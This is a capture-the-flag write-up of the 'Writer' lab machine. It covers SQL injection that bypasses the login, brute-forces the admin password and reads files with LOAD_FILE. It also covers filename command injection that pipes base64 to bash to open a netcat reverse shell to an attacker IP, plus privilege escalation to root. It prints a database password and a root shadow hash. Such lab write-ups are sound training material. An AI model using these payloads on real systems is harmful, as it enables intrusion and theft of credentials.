

# Writer


### 08/27/2021

Nmap scan

```java
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 19:44 -03
Nmap scan report for 10.10.11.101
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.31 seconds
```

Trying SQL-injection:



Directory scan


```java
========================================= 
|    Share Enumeration on 10.10.11.101    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	writer2_project Disk      
	IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Because the SQL Injection bypass login page, we can try a boolean condition to discover admin password in burp suite: 


```java
1'+or+exists(SELECT+1+FROM+users+where+username+%3d+'admin'+and+password+like+'§a§%'+limit+1)--+x
118e48794631a9612484ca8b55f622d0
118e48794631a9612484ca8b55f622d0
```

Defining number of columns in database:

```java
sid' UNION ALL SELECT 1,2,3,4,5,6;
```

Analyzing the requests we can known that in Welcome message, it shows welcome 1 when we send 0 to 5 and two when we send 1 to 6.


It shows writer.wsgi and this file have information about python. This is a interface between application server to make a connection with python django. 

Database version:


This file import the __ init __ .py from web folder. 


```java
/var/www/writer.htb/writer/__init__.py
Db credential: admin | ToughPasswordToCrack&
```

Let's to analyze that file to search for interesting things:


In this way we can create a reverse-shell without spaces.


```java
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
# Using hex format
X=$'cat\x20/etc/passwd'&&$X

exploit.jpg;bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64$(foo)-d|bash
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
```

The files are saved with random name like: 


Dumping files from the machine:


```java
uname='UNION ALL SELECT 1,LOAD_FILE('/var/www/writer.htb/writer/templates/settings.html'),3,4,5,6-- X&password=%27or+1%3D1--+x
```


**Tables**

site, stories, user

**User**

Columns:

```python
uname='union all select 1,COLUMN_NAME,3,4,5,6 from information_schema.columns where table_name='users'-- x&password=1
#Output id,username,password,email,status,date_created
```

**Stories**

Columns:

```python
id,author,title,tagline,content,status,date,image
```

**Site**

Columns:

```python
id,title,description,logo,favicon,ganalytics
```

### Code review

This review will be made separated with sections, each section contains a image and the review of the block:


The flask app sends the SQL query to the HTML page render stories. 


After read the code many times, i didn't find the vulnerability, so i craft the local website to try decode executions:


The idea was enter in each statement  and set a print, so with this we can debug what occurs in the application:


So when send a simple image this shows that we are in first statement without se a image_url


Into the exception camp, so we have to set.jpg in hellohelo phrase.


Find a way to exit of this exception:


I known that this file_name has to be a external url.


So the image variable is all of the things into the file data url:


Uploading the malicious file with the payload:


Now in the image_url as you know, we will call the malicious file and execute the reverse shell. 

After many tries, I knew that you must have to send the payload in both parameters.


Database credentials.


In the folder of writer v2 has a settings file with credentials.


And a path of the configuration file.


Reading this file, it has database credentials. 


Get the password in database and crack it.

Based on the groups we search to files with permissions.


Editing the disclaimer with a reverse shell inside it.


Open ports:


The port 25 is the port of email postfix

When you perform the mail, the disclaimer is executed.


Now in the apt.conf.d we will write a persistent script.

Reverse shell


After that we get the root access


```python
root:$6$gev1Op0YfgboE7iR$iMNbP.8qic/SzTr4atxwLbkI7nScyZWJPbTgoXAlEz5Hcw3Ntget9j3p.iccPcw5Jl4dj4bHWZ5LvoLLNC8iB.:18816:0:99999:7:::
```